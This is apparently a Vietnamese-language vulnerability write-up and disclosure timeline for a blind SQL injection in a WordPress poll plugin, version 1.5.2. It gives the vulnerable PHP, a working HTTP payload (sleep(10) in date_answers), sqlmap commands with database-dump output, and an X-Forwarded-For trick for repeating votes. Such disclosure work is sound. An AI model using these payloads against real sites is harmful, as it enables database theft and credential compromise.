 ```yaml
---
title: WordPress Plugin Poll, Survey, Questionnaire and Voting system 1.5.2 - 'date_answers' Blind SQL Injection
date: 5/07/2021
layout: single
--- 
```


## Mô tả
Tác giả khai thác: inspired - Toby Jackson

Một lỗ hổng đã được phát hiện trong plugin wpdevart wordpress "Poll, Survey, Questionnaire and Voting system" phiên bản 1.5.0 và 1.5.2. Có thể thực hiện chèn SQL mù vào tham số date_answers [] khi bỏ phiếu. Điều này có thể được sử dụng để kết xuất cơ sở dữ liệu back end. Phiên bản 1.5.2 yêu cầu thay đổi tiêu đề bằng phương pháp thích hợp để giả mạo địa chỉ IP, chẳng hạn như X-Forwarded-For

Nguồn khai thác [exploits/50052](https://www.exploit-db.com/exploits/50052)
## Vulnerable Code 

Mã dễ bị tấn công nằm trong trang front_end.php trong hàm save_poll_in_databese (). Nó lấy $ question_id và $ current_user_ip trước khi lưu trữ phiếu bầu trong một biến có tên là $ new_voted_array, như được thấy bên dưới, từ tham số bài đăng date_answers

```php
$new_voted_array=$_POST['date_answers'];

```
Sau đó, mảng được lặp lại và biến $ new_answer được sử dụng như một phần của truy vấn where mà không bị khử trùng.

```php
if($new_voted_array)
  foreach($new_voted_array as $new_answer)  {
    $wpdb->query('UPDATE '.$wpdb->prefix.'polls SET vote = vote+1 WHERE `question_id` = '.$question_id.' AND `answer_name` = '.$new_answer.'');

```

## Demo 
```shell
------
POST /blog/wp-admin/admin-ajax.php?action=pollinsertvalues HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 67
Origin: http://localhost
DNT: 1
Connection: close
Referer: http://localhost/blog/index.php/2021/06/09/research/
Cookie: wordpress_d23cdc2cc5dd18709e8feb86452d865b=inspired%7C1623345285%7C52E5QESQG5PIPUT2tixVHPIkdN8inwgNojy9hs0JvDS%7C3538f3f44a02304781e099f970dc762fd89e88378a46613cf636fcd28a9755d3; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_d23cdc2cc5dd18709e8feb86452d865b=inspired%7C1623345285%7C52E5QESQG5PIPUT2tixVHPIkdN8inwgNojy9hs0JvDS%7C3d7d7b6485e1daa04da753dcc4e85a56150091301de3668ffe108e7829134f0d; wp-settings-time-1=1623238438

question_id=1&poll_answer_securety=5b29ac18fe&date_answers%5B0%5D=sleep(10)
------

```
Bằng cách sử dụng điều này, cơ sở dữ liệu có thể dễ dàng được kết xuất bằng cách nắm bắt yêu cầu, với một bộ đánh chặn như burpsuite và sử dụng sqlmap. Bằng cách đặt dấu * tại điểm tiêm cần thiết, sqlmap sẽ kiểm tra vị trí này trước tiên.


```shell 
------
POST /blog/wp-admin/admin-ajax.php?action=pollinsertvalues HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 67
Origin: http://localhost
DNT: 1
Connection: close
Referer: http://localhost/blog/index.php/2021/06/09/research/
Cookie: wordpress_d23cdc2cc5dd18709e8feb86452d865b=inspired%7C1623345285%7C52E5QESQG5PIPUT2tixVHPIkdN8inwgNojy9hs0JvDS%7C3538f3f44a02304781e099f970dc762fd89e88378a46613cf636fcd28a9755d3; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_d23cdc2cc5dd18709e8feb86452d865b=inspired%7C1623345285%7C52E5QESQG5PIPUT2tixVHPIkdN8inwgNojy9hs0JvDS%7C3d7d7b6485e1daa04da753dcc4e85a56150091301de3668ffe108e7829134f0d; wp-settings-time-1=1623238438

question_id=1&poll_answer_securety=5b29ac18fe&date_answers%5B0%5D=*
------

```
Lưu tập tin này dưới dạng  request.txt và chạy công cụ.

```shell
------
python sqlmap.py -r request.txt --dbms=mysql --dbs --level=5 --risk=3

[14:30:54] [INFO] testing MySQL
[14:30:54] [INFO] confirming MySQL
[14:30:54] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.46
back-end DBMS: MySQL >= 8.0.0
[14:30:54] [INFO] fetching database names
[14:30:54] [INFO] fetching number of databases
[14:30:54] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[14:30:54] [INFO] retrieved: 2
[14:30:54] [INFO] resumed: information_schema
[14:30:54] [INFO] resumed: wordpress
available databases [2]:
[*] information_schema
[*] wordpress
------
```
```shell
------
python sqlmap -r request.txt --dbms=mysql -D wordpress --tables --level=5 --risk=3

Database: wordpress
[19 tables]
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_democracy_a        |
| wp_democracy_log      |
| wp_democracy_q        |
| wp_links              |
| wp_options            |
| wp_polls              |
| wp_polls_question     |
| wp_polls_templates    |
| wp_polls_users        |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
------
```
Trong các phiên bản 1.5.1 và 1.5.2, lỗ hổng này chỉ xảy ra trong lần bỏ phiếu đầu tiên mà người dùng bỏ qua. Thêm tiêu đề X-Forwarded-For ngẫu nhiên vào các yêu cầu sẽ cho phép lặp lại cuộc tấn công như mô tả ở trên.

Điều này đã được chứng minh trong PoC sau

+ [https://youtu.be/Fj1zeXNxDYQ](https://www.youtube.com/watch?v=Fj1zeXNxDYQ
)
+ [https://youtu.be/P1r7gk0DSaM](https://www.youtube.com/watch?v=Fj1zeXNxDYQ
)

Kẻ tấn công có thể kết xuất cơ sở dữ liệu back-end của máy chủ và giành quyền truy cập vào thông tin đăng nhập của người dùng mà sau đó có thể được sử dụng để thực hiện các hành vi độc hại khác. Nếu được định cấu hình không chính xác, nó cũng có thể dẫn đến việc kẻ tấn công có thể thực thi mã từ xa trên máy chủ

## Nền tảng bị ảnh hưởng 
Các trang web WordPress chạy plugin "Poll, Survey, Questionnaire and Voting system" phiên bản 1.5.2 (các phiên bản cũ hơn cũng có thể bị ảnh hưởng).

## Cách khắc phục
Bản cập nhật đã được sửa trong phiên bản 1.5.3, vì vậy bạn nên cập nhật lên phiên bản này nếu sử dụng plugin.

## Thời gian công bố 

+ 9/6/2021: Lỗ hổng bảo mật được xác định.
+ 9/6/2021: Nhà phát triển đã thông báo về lỗ hổng bảo mật.
+ 9/6/2021: Nhà cung cấp trả lời để thảo luận chi tiết hơn về lỗ hổng bảo mật.
+ 9/6/2021: Đã gửi bằng chứng khái niệm cho nhà cung cấp và các khối mã bị ảnh hưởng.
+ 10/6/2021: Email của nhà cung cấp để thông báo lỗ hổng bảo mật đã được khắc phục.
+ 10/6/2021: Bản sửa lỗi ban đầu được xác nhận, nhà cung cấp vui lòng tiết lộ lỗ hổng bảo mật.
+ 10/6/2021: CVE được yêu cầu.
+ 19/6/2021: Liên hệ với WPScan để thảo luận về lỗ hổng bảo mật.
+ 19/6/2021: Bản sửa lỗi đã xác nhận không hợp lệ khi người dùng mới bỏ phiếu hoặc chỉnh sửa tiêu đề.
+ 10/6/2021: Đã liên hệ với nhà cung cấp để yêu cầu sửa chữa thêm.
+ 22/6/2021: Nhà cung cấp xác nhận bản sửa lỗi. Thông tin được công khai.
